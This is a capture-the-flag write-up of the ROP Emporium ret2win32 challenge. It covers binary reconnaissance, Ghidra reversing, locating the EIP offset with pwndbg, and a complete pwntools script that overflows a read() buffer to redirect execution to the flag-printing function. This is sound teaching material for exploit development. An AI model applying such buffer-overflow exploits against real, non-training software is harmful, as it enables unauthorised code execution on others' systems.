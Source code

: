 ```yaml
---
layout: default
title : Sayonara - Awkward Writeup
---
```


today we are going to be tackling the first challenge on ROP Emporium which is a series of challenges to teach ROP `Return Oriented Programming`

![image](https://www.linkpicture.com/q/Screenshot_1_517.png)

download the x86 zip file and extract it using unzip, you will get 2 files a 32 bit executable and a flag.txt file which will be revealed if you exploit the binary 


## Basic Executable Reconnaissance

the executable is not stripped which makes reverse engeneering easier because it doesnt hide function names and the executable is dynamically linked so the libc library which contains many external funcions like fprintf() are not loaded within the executable but they dynamically linked at the execution time

![image](https://www.linkpicture.com/q/Screenshot_2_316.png)

we have only one security configuration enabled which is NX `No-Execute` also known as `Data Execution Prevention or DEP` marks certain areas of the program as not executable, meaning that stored input or data cannot be executed as code. This is significant because it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable.

```
checksec --file=ret2win32 
```
![image](https://www.linkpicture.com/q/Screenshot_3_249.png)


## Reverse Engeneering the Binary

open the binary using ghidra so we can read the source code and take a look at the functions

![image](https://user-images.githubusercontent.com/97733918/223099241-58d26b75-14a9-4631-bbc7-532cfc61b78c.png)

### Binary Functions

in this list of functions there is 3 interesting functions `main` and `pwnme` and `ret2win` where the main is the entry and pwnme is the vulnerable function and ret2win is the function that will print the flag 

![image](https://user-images.githubusercontent.com/97733918/223098994-649a7680-9f81-4a04-83ef-cc4855372607.png)

this the main function let's jump to pwnme

![image](https://user-images.githubusercontent.com/97733918/223099776-43917f97-cdf9-4d69-a9e3-0c42ebe7b32c.png)

the read function is vunerable because the buffer takes `40 bytes` as maximum and the read function takes upto `56 bytes` so we can exploit the 16 bytes left to overflow the buffer and `hijack the execution flow`

![image](https://user-images.githubusercontent.com/97733918/223100490-3bab3262-1a56-48b5-95eb-d9dae7c50396.png)

so the final plan is exploiting `read()` from pwnme function by overflowing the buffer and overwrite the `EIP address value` with the ret2win function address to print the flag

![image](https://user-images.githubusercontent.com/97733918/223101015-b38ac1c2-cde7-4754-88f2-ef1b5e4ee59c.png)


## Locating EIP Offset : 

`EIP` is the return address value af a function so if we can to overwrite this value we can jump to another address that we specify in this challenge we want to jump to the ret2win function address

to find the offset we will use gdb pwndbg plugin 

![image](https://user-images.githubusercontent.com/97733918/223102436-2e94b3e1-dc52-4b43-a101-fedd37568491.png)

cyclic generates a char pattern that will help us identify the the offset to the EIP in this case we're generating a 100 char pattern because we know that less than 100 is enaugh to crash the binary and overwrite the EIP 

![image](https://user-images.githubusercontent.com/97733918/223102520-2ddd42d4-9090-4a74-8a66-4f486fa9c0f4.png)

let's run the binary and send this pattern as input

![image](https://user-images.githubusercontent.com/97733918/223106109-28445e58-1fea-442f-8319-163e0d4f24b2.png)

wait for the binary to crash and then take the 4 char pattern that have overwritten the EIP and find out the offset

![image](https://user-images.githubusercontent.com/97733918/223106535-62bdbfc6-2095-4f65-a944-1d38be57a0d0.png)

the offse is `44`

![image](https://user-images.githubusercontent.com/97733918/223106755-30a34c96-1f38-4c89-a0c4-6d34babe7046.png)

## Python Exploit using Pwntools

we are going to import the pwntools library because it will help us write the exploit

```python
from pwn import *
```

we will setup the architecture so the pwntools library will analyze the executable's archeticture and convert the addresses to the correct format `32bit little endianne or 64bit little endianne` so they are correctly aligned in the stack without us doing this manually 

```python
exe = './ret2win32'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
```

open the executable in a process
```python
io = process(exe)
```

padding the payload with the offset and overwrite the EIP with the address of the ret2win function and send this payload as input

```python
offset = 44
payload = flat(
	offset * b'A',
	elf.functions.ret2win
)

write("payload", payload)
io.sendlineafter(b'>', payload)

io.interactive()
```

this is the `final script`

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = './ret2win32'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
io = process(exe)
offset = 44
payload = flat(
	offset * b'A',
	elf.functions.ret2win
)

write("payload", payload)
io.sendlineafter(b'>', payload)

io.interactive()
```

now let's run it and BOOM we have Hijacked the Execution Flow 

![image](https://user-images.githubusercontent.com/97733918/223111991-70b27437-7f45-4c80-97aa-b61c6b2c660c.png)

Greeting From [Sayonara](https://github.com/ismail-arame)


